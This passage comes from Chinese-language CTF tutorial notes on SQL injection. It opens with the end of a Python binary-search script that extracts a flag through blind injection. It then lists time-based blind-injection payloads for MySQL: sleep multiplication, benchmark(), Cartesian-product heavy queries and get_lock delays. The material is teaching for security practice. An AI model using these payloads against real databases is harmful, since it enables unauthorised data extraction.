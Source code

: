 ```python
        print(i,':')
        low = 31
        high = 127
        while low <= high :
            mid = (low + high) // 2
            res = payload(i,mid)
            if res :
                low = mid + 1
            else :
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)
 
exp()
print('flag=',flag)
```
##### 时间盲注
**无if和case的解决办法**
假设`if`和`case`被ban了，又想要根据condition的真假来决定是否触发`sleep()`，可以将condition整合进`sleep()`中，做乘法即可:

```
sleep(5*(condition))
```

如果condition为真则返回1，`5*(condition)`即`5*1`为5，延时5秒；如果condition为假则返回0，`5*(condition)`即`5*0`为0，延时0秒

**benchmark()**
`benchmark(count,expr)`函数的执行结果就是将expr表达式执行count次数

```sql
benchmark(30000000,sha(1))
```

**笛卡儿积**
这种方法又叫做`heavy query`，可以通过选定一个大表来做笛卡儿积，但这种方式执行时间会几何倍数的提升，在站比较大的情况下会造成几何倍数的效果，实际利用起来非常不好用

```sql
select count(*) from information_schema.columns A, information_schema.columns B;
```

**get_lock**
在单数据库的环境下，如果想防止多个线程操作同一个表（多个线程可能分布在不同的机器上），可以使用这种方式，取表名为key，操作前进行加锁，操作结束之后进行释放，这样在多个线程的时候，即保证了单个表的串行操作，又保证了多个不同表的并行操作

当我们锁定一个变量之后，另一个session再次包含这个变量就会产生延迟

```sql
(1)我们首先通过注入实现对 username 字段的加锁
select * from ctf where flag = 1 and get_lock('username',1);

(2)然后构造我们的盲注语句
select * from ctf where flag = 1 and 1 and get_lock('username',5);
select * from ctf where flag = 1 and 0 and get_lock('username',5);
```
值得注意的是，利用场景是有条件限制的：**需要提供长连接**
在Apache+PHP搭建的环境中需要使用 `mysql_pconnect`函数来连接数据库

